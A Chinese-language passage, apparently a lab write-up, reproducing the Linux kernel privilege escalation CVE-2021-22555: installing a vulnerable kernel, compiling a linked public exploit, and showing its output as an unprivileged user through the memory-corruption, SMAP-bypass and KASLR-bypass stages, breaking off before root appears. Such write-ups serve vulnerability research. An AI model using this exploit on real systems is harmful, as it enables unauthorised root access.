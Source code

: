 > 下载内核镜像、模块

```
sudo apt install linux-headers-5.8.0-48-generic\
linux-image-5.8.0-48-generic\
linux-modules-5.8.0-48-generic\
linux-modules-extra-5.8.0-48-generic
```

> 打开配置文件sudo vim /etc/default/grub

修改配置GRUB_DEFAULT=0为

`GRUB_DEFAULT="Advanced options for Ubuntu&gt;Ubuntu, with Linux 5.8.0-48-genetic"`

> 保存更新并重启系统

sudo update-grub<br>
sudo reboot

### 3.2 编译exp

gcc -m32 –static -o exp exp.c

([exp下载链接](https://github.com/google/security-research/blob/master/pocs/linux/cve-2021-22555/exploit.c))

### 3.3 运行exp进行内核提权

```
bll@ub20:~/cve$ id
uid=1000(bll) gid=1000(bll) groups=1000(bll),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),117(docker)
bll@ub20:~/cve$ ./exp
[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[+] fake_idx: 803
[+] real_idx: 7e9

[+] STAGE 2: SMAP bypass
[*] Freeing real secondary message...
[*] Spraying fake secondary messages...
[*] Leaking adjacent secondary message...
[+] kheap_addr: ffff8b7ea8881000
[*] Freeing fake secondary messages...
[*] Spraying fake secondary messages...
[*] Leaking primary message...
[+] kheap_addr: ffff8b7ea8290000

[+] STAGE 3: KASLR bypass
[*] Freeing fake secondary messages...
[*] Spraying fake secondary messages...
[*] Freeing sk_buff data buffer...
[*] Spraying pipe_buffer objects...
[*] Leaking and freeing pipe_buffer object...
[+] anon_pipe_buf_ops: ffffffff99a78380
[+] kbase_addr: ffffffff98a00000

```